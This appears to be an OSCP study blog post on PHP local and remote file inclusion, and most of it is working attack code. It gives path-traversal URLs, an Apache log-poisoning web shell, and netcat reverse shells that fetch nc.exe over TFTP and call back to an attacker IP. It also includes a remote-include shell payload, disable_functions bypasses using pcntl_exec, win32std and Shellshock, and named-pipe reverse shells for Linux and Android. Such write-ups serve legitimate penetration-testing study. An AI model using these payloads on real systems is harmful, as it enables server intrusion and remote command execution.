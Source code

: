 ```yaml
---
title:  "LFI and RFI"
date:   2018-03-26 17:22:33 +0800
categories: OSCP
classes:
  - landing
header:
  teaser: /assets/img/oscp-teaser.jpg
---
```


LFI happens when an PHP page explicitly calls include function to embed another PHP page, which can be controlled by the attacker.
For example, addguestbook.php below include another PHP page that can be chosen depending on the language input:
```php
$lang = $_GET['LANG'];
include( $lang . '.php' );
```
Because the LANG field can be controlled, the attacker can put in the path to a local or remote file.

## 1. Local file inclusion (LFI)

### a. Reading arbitrary files
Windows hosts file:
`http://10.11.23.188/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00`

### b. Contaminating apache log file and executing it
Use netcat to connect to the server and contaminate `C:/xampp/apache/logs/access.log` file:
```
root@kali:~# nc -v 10.11.23.188 80
10.11.23.188: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.23.188] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
^C
```
After contamination, the access.log file on the serve is like this:
>10.11.0.105 - - [11/Mar/2018:11:24:17 -0400] "GET /addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig HTTP/1.1" 200 369
>10.11.0.105 - - [11/Mar/2018:11:24:48 -0400] "<?php echo shell_exec($_GET['cmd']);?> " 400 366

Display the access.log file to execute the command:
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig`

### c. Transferring netcat and obtaining reverse shell
Kali:
```
mkdir /tftp 
atftpd --daemon --port 69 /tftp 
cp /usr/share/windows-binaries/nc.exe /tftp/ 
```
Windows:
```
tftp -i 10.11.0.105 get nc.exe
nc.exe -e cmd.exe 10.11.0.105 4444
```
Kali:
```
nc -lvp 4444
```
Access this URL to open the shell
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444`
Note:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
is used to get the TTY shell

## 2. Remote file inclusion (RFI)
Executing a command via a remote php page:
`http://10.11.23.188/addguestbook.php?LANG=http://10.11.0.105:31/evil.txt%00`

Content of `/var/www/html/evil.txt`:
```php
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>
```
Most modern php configuration disallows remote file includes of http URIs. For example: `xampp/apache/bin/php.ini`
```ini
allow_url_fopen = Off
allow_url_include = Off
```
## 3. Bypass PHP disable_functions
The server admin can disable PHP command execution to enhance the security. In that case, we have to bypass it so that our LFI/RFI attack is meaningful.
### a. Use PHP code to download file and list directory
```php
function listDir($dir) {
    if ($handle = opendir($dir)) {
        while (false !== ($entry = readdir($handle))) {
            if ($entry != "." && $entry != "..")
                echo "$entry<br>";
        }
        closedir($handle);
    }
}
function downloadFile($url, $path) {
    unlink($path);
    $file = fopen ($url, 'rb');
    if ($file) {
        $newf = fopen ($path, 'wb');
        if ($newf) {
            while(!feof($file))
                fwrite($newf, fread($file, 1024 * 8), 1024 * 8);
            fclose($file);
        }
        fclose($file);
    }
}
```
### b. PHP 4.2.0+, PHP 5: pcntl_exec
```php
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec'))
    die('pcntl not found');

$cmd = $cmd."&pkill -9 bash >out";
pcntl_exec("/bin/bash", $cmd);
echo file_get_contents("out");        
?>
```
### c. PHP 5.2.3: Win32std ext Protections Bypass
```php
<?php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");
?>
```
### d. PHP 5.x: Shellshock
```php
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
    if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
        $tmp = tempnam(".","data");
        putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
        mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
    }
    else return "Not vuln (not bash)";
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output != "") return $output;
    else return "No output, or not vuln.";
}
?>
```
## 4. Deal with missing -e option in netcat
Certain nc version does not provide -e option for us to open a shell session. Workaround by using `/bin/sh` as below:
```php
<?php
function reverse_shell() {
    echo "Disabled functions: " . ini_get('disable_functions')."\n";
    unlink("/tmp/backpipe");
    echo shellshock("mknod /tmp/backpipe p ");
    echo shellshock("/bin/sh -c '/bin/sh 0</tmp/backpipe | nc 10.11.0.105 4444 1>/tmp/backpipe'");
}
?>
```
Android:
```
mkfifo /data/data/com.android.chrome/files/a; toybox nc 192.168.1.182 4444 0</data/data/com.android.chrome/files/a | sh -i &>/data/data/com.android.chrome/files/a;
```
**References:**

LFI:
- http://resources.infosecinstitute.com/local-file-inclusion-code-execution/
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- https://www.sunnyhoi.com/how-to-hack-a-website-using-local-file-inclusion-lfi/

TTY:
- http://pentestmonkey.net/blog/post-exploitation-without-a-tty
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

Reverse shell:
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://netsec.ws/?p=331

PHP disable_functions
- http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

Netcat missing -e
- https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
